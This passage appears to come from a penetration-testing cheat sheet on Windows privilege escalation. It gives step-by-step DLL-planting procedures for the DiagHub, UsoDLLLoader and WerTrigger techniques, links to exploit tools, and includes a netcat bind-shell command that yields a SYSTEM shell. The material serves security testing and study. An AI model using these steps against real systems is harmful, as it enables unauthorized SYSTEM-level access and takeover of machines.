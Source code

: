 ## EoP - Privileged File Write

### DiagHub

![⚠](https://cdn.jsdelivr.net/gh/jdecked/twemoji@15.0.3/assets/svg/26a0.svg ":warning:") Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory.

#### Exploit

1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools: * https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag * https://github.com/decoder-it/diaghub_exploit

### UsoDLLLoader

![⚠](https://cdn.jsdelivr.net/gh/jdecked/twemoji@15.0.3/assets/svg/26a0.svg ":warning:") 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

#### Exploit

1. Build https://github.com/itm4n/UsoDllLoader
    - Select Release config and x64 architecure.
    - Build solution.
        - DLL .\x64\Release\WindowsCoreDeviceInfo.dll
        - Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.

### WerTrigger

> Exploit Privileged File Writes bugs with Windows Problem Reporting

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**
